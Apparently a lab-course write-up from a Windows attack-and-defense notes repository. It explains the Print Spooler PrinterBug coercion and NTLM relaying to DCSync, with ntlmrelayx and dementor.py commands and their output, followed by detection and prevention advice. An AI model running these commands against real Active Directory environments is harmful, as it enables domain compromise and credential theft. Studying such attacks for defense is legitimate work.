



# windows_attack_defense
### Print Spooler & NTLM Relaying Attack
The Print Spooler is an old service enabled by default, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, Lee Christensen found the PrinterBug. The functions *RpcRemoteFindFirstPrinterChangeNotification* and *RpcRemoteFindFirstPrinterChangeNotificationEx* can be abused to force a remote machine to perform a connection to any other machine it can reach. Moreover, the reverse connection will carry authentication information as a TGT. Therefore, any domain user can coerce RemoteServer$ to authenticate to any machine. Microsoft's stance on the PrinterBug was that it will not be fixed, as the issue is "by-design".

The impact of PrinterBug is that any Domain Controller that has the Print Spooler enabled can be compromised in one of the following ways:

1. Relay the connection to another DC and perform DCSync (if SMB Signing is disabled).
1. Force the Domain Controller to connect to a machine configured for Unconstrained Delegation (UD) - this will cache the TGT in the memory of the UD server, which can be captured/exported with tools like Rubeus and Mimikatz.
1. Relay the connection to Active Directory Certificate Services to obtain a certificate for the Domain Controller. Threat agents can then use the certificate on-demand to authenticate and pretend to be the Domain Controller (e.g., DCSync).
1. Relay the connection to configure Resource-Based Kerberos Delegation for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

**Attack**

In this attack path, we will relay the connection to another DC and perform DCSync (i.e., the first compromise technique listed). For the attack to succeed, SMB Signing on Domain Controllers must be turned off.

To begin, we will configure NTLMRelayx to forward any connections to DC2 and attempt to perform the DCSync attack:

```
Dennis-44@htb[/htb]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Next, we need to trigger the PrinterBug using the Kali box with NTLMRelayx listening. To trigger the connection back, we'll use Dementor (when running from a non-domain joined machine, any authenticated user credentials are required, and in this case, we assumed that we had previously compromised Bob):

```
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```
Now, switching back to the terminal session with NTLMRelayx, we will see that DCSync was successful:



### Print Spooler & NTLM Relaying Detection
Exploiting the PrinterBug will leave traces of network connections toward the Domain Controller; however, they are too generic to be used as a detection mechanism.

In the case of using NTLMRelayx to perform DCSync, no event ID 4662 is generated (as mentioned in the DCSync section); however, to obtain the hashes as DC1 from DC2, there will be a successful logon event for DC1. This event originates from the IP address of the Kali machine, not the Domain Controller, as we can see below:


A suitable detection mechanism always correlates all logon attempts from core infrastructure servers to their respective IP addresses (which should be static and known).

### Print Spooler & NTLM Relaying Prevention
Print Spooler should be disabled on all servers that are not printing servers. Domain Controllers and other core servers should never have additional roles/functionalities that open and widen the attack surface toward the core AD infrastructure.

Additionally, there is an option to prevent the abuse of the PrinterBug while keeping the service running: when disabling the registry key RegisterSpoolerRemoteRpcEndPoint, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to 1 enables it, while 2 disables it:


